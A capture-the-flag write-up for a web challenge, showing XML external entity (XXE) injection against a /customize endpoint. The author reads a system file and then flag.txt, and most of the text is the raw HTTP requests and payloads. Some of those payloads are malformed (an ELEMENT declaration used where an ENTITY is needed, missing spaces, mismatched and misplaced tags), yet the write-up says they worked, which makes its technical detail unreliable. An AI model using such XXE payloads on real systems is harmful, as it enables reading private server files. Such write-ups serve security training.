 # Special Order | Web

*I just made a new website! Check it out!
Oh, also I just remembered I need to do my math homework...
f(x) = ax2 + bx + c*

Looking around the website and with the second order hint from the second order ecuation, the only place I find I could do something was in `customize`.  This was the request:

```
POST /customize HTTP/1.1
Host: four.jh2i.com:50027
User-Agent Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: http://four.jh2i.com:50027/customize
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 34
Connection: close
Cookie: session=...

{
	"color":"blue",
	"size":"40px"
}
```

Converting this to XML seems to work:

```
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<color>blue</color>
	<size>40px</size>
</root>
```

The result was saved in `clean-blog.css`, so I tried to pull `/etc/password`:

```
POST /customize HTTP/1.1
Host: four.jh2i.com:50027
User-Agent Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: http://four.jh2i.com:50027/customize
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 34
Connection: close
Cookie: session=...

<?xml version="1.0"?>
<!DOCTYPEfoo[
	<!ELEMENT foo(#ANY)>
	<!ELEMENT xxeSYSTEM"file:///etc/password">
]>
<root>
<color>&xxe;</color>
<size>40px</size>
</root>
```

And, the response was the `/etc/password` file.  So, I tried with the `flag.txt`:

```
POST /customize HTTP/1.1
Host: four.jh2i.com:50027
User-Agent Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: http://four.jh2i.com:50027/customize
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 34
Connection: close
Cookie: session=...

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE abt[
	<!ELEMENT abtANY><!ENTITY xxeSYSTEM"file:///flag.txt">
]></root><color>&xxe;</color><size>40px</color><size>20px</size></root>
```

And got the flag:

```
* {
	font-size: 20px;
	color: flagPs3cond_0rd3r_bugs_2re_leet9933};
}
```